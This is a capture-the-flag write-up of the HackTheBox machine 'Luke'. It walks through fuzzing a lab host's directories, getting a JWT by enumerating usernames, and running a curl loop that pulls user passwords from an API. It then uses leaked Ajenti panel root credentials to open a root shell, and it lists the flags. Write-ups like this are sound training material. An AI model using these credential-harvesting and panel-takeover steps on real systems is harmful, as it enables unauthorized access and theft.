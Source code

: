 ```yaml
---
title: "Luke - HackTheBox"
date: "2019-07-27"
tags:
    - "HackTheBox"
    - "CTF"
---
```

![Information](/images/hackthebox/luke/info.png)

# Information gathering
Let's start with the usual information gathering steps:

![Port scan](/images/hackthebox/luke/nmap.png)

There's a FTP server on port 21, let's check what's on it:
![FTP](/images/hackthebox/luke/ftp.png)

In the webapp folder there's a txt file:
![Text file](/images/hackthebox/luke/txt.png)

Let's see what's on the web server on port 80:
![Web](/images/hackthebox/luke/web.png)

Navigating through the website and checking the sources we do not find anything
useful.

Let's run [ffuf](https://github.com/ffuf/ffuf) to search directories and files:
```
$ ffuf -w raft-large-directories.txt -r -u http://10.10.10.137/FUZZ 
$ ffuf -w raft-large-files.txt -r -u http://10.10.10.137/FUZZ 
```

I'm using two wordlists, one for directories and one for files. They both are
from the [SecLists](https://github.com/danielmiessler/SecLists) repository:
![Ffuf directories](/images/hackthebox/luke/ffuf.png)
![Ffuf files](/images/hackthebox/luke/ffuf2.png)

# Exploration

In the `/management` directory there's a login made with HTTP basic
authentication:
![Management](/images/hackthebox/luke/management.png)

In the `login.php` page there is a login form:
![Login](/images/hackthebox/luke/login.png)

Trying [hydra](https://github.com/vanhauser-thc/thc-hydra) on both of them gives
us no results.

The `config.php` file contains something interesting:
![Config](/images/hackthebox/luke/config.php.png)

Let's check the web server on port 3000:
![NodeJS](/images/hackthebox/luke/nodejs.png)

Searching the error message on Google, we find that the token must be provided
in the `GET` request using the `X-Access-Token` header. Let's fire up Burp and
try:
![Token](/images/hackthebox/luke/token.png)

It's getting recognized, but, obviously, it's not a valid token. After a bit of
googling we find that to authenticate using JWT Tokens we must make a `POST`
request to the endpoint providing the username and the password.

You can find a good explanation about JWT [here](https://medium.com/swlh/a-practical-guide-for-jwt-authentication-using-nodejs-and-express-d48369e7e6d4).

Let's search any valid path on port 3000:
![Ffuf 3000](/images/hackthebox/luke/ffuf-3000.png)

Let's use wfuzz with the password found in `config.php` with a list of usernames
to try to get a token:
![Wfuzz JWT](/images/hackthebox/luke/wfuzz-jwt.png)

We see that the username admin gives us a `200` response code. Let's make the
request with `curl` to see the result:
![Token](/images/hackthebox/luke/curl-token.png)

Now we can use the token to authenticate by sending it in the `X-Access-Token`
header in our requests.

Let's try to use it to access the previous found directory:
![Users JWT](/images/hackthebox/luke/jwt-users.png)

By trying to do the same request to `/users/admin`, I got the admin password, so
because I like to automate things, I wrote a script that makes a request for
every user
```bash
#!/bin/bash

declare -a users=("admin" "derry" "yuri" "dory")

for user in "${users[@]}"; do
    curl -s -X GET -H "X-Access-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTY0NTk2MTIyLCJleHAiOjE1NjQ2ODI1MjJ9.QKBqdc7fAcMY7dVB-ruizMdmcUNm3KheoX1kwSuB68k" http://10.10.10.137:3000/users/$user | jq
done
```
![Passwords JWT](/images/hackthebox/luke/jwt-passwords.png)

`jq` is used to beautify the `JSON`.

By trying the credentials in the logins founds previously, we get access to the
`/management` endpoint with the user Derry:
![Management login](/images/hackthebox/luke/management-login.png)

The only interesting file is `config.json`:
```json
{
    "users": {
        "root": {
            "configs": {
                "ajenti.plugins.notepad.notepad.Notepad": "{\"bookmarks\": [], \"root\": \"/\"}", 
                "ajenti.plugins.terminal.main.Terminals": "{\"shell\": \"sh -c $SHELL || sh\"}", 
                "ajenti.plugins.elements.ipmap.ElementsIPMapper": "{\"users\": {}}", 
                "ajenti.plugins.munin.client.MuninClient": "{\"username\": \"username\", \"prefix\": \"http://localhost:8080/munin\", \"password\": \"123\"}", 
                "ajenti.plugins.dashboard.dash.Dash": "{\"widgets\": [{\"index\": 0, \"config\": null, \"container\": \"1\", \"class\": \"ajenti.plugins.sensors.memory.MemoryWidget\"}, {\"index\": 1, \"config\": null, \"container\": \"1\", \"class\": \"ajenti.plugins.sensors.memory.SwapWidget\"}, {\"index\": 2, \"config\": null, \"container\": \"1\", \"class\": \"ajenti.plugins.dashboard.welcome.WelcomeWidget\"}, {\"index\": 0, \"config\": null, \"container\": \"0\", \"class\": \"ajenti.plugins.sensors.uptime.UptimeWidget\"}, {\"index\": 1, \"config\": null, \"container\": \"0\", \"class\": \"ajenti.plugins.power.power.PowerWidget\"}, {\"index\": 2, \"config\": null, \"container\": \"0\", \"class\": \"ajenti.plugins.sensors.cpu.CPUWidget\"}]}", 
                "ajenti.plugins.elements.shaper.main.Shaper": "{\"rules\": []}", 
                "ajenti.plugins.ajenti_org.main.AjentiOrgReporter": "{\"key\": null}", 
                "ajenti.plugins.logs.main.Logs": "{\"root\": \"/var/log\"}", 
                "ajenti.plugins.mysql.api.MySQLDB": "{\"password\": \"\", \"user\": \"root\", \"hostname\": \"localhost\"}", 
                "ajenti.plugins.fm.fm.FileManager": "{\"root\": \"/\"}", 
                "ajenti.plugins.tasks.manager.TaskManager": "{\"task_definitions\": []}", 
                "ajenti.users.UserManager": "{\"sync-provider\": \"\"}", 
                "ajenti.usersync.adsync.ActiveDirectorySyncProvider": "{\"domain\": \"DOMAIN\", \"password\": \"\", \"user\": \"Administrator\", \"base\": \"cn=Users,dc=DOMAIN\", \"address\": \"localhost\"}", 
                "ajenti.plugins.elements.usermgr.ElementsUserManager": "{\"groups\": []}", 
                "ajenti.plugins.elements.projects.main.ElementsProjectManager": "{\"projects\": \"KGxwMQou\\n\"}"
            }, 
            "password": "KpMasng6S5EtTy9Z", 
            "permissions": []
        }
    }, 
    "language": "", 
    "bind": {
        "host": "0.0.0.0", 
        "port": 8000
    }, 
    "enable_feedback": true, 
    "ssl": {
        "enable": false, 
        "certificate_path": ""
    }, 
    "authentication": true, 
    "installation_id": 12354
    }
```

We find the username and password `(root:KpMasng6S5EtTy9Z)` for the Ajenti panel
running on port `8000`. This is the administration panel:
![Ajenti](/images/hackthebox/luke/ajenti.png)

On the left, in the terminal section, we have access to a shell:
![Root](/images/hackthebox/luke/root.png)

To my surprise, this is a root shell, so during my workflow I must have skipped
some steps.

## User flag
```
58d441e500e8941f9cf3baa499e2e4da
```
## Root flag
```
8448343028fadde1e2a1b0a44d01e650
```

